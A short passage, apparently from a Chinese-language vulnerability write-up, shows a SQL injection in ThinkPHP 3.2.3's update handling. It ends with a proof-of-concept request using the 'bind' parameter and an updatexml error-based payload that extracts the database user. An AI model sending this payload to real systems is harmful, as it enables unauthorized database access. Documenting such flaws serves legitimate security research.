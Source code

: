 ![](./resource/Thinkphp3.2.3update注入漏洞/media/rId30.jpg)

果然造成了注入：

### poc

    money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))

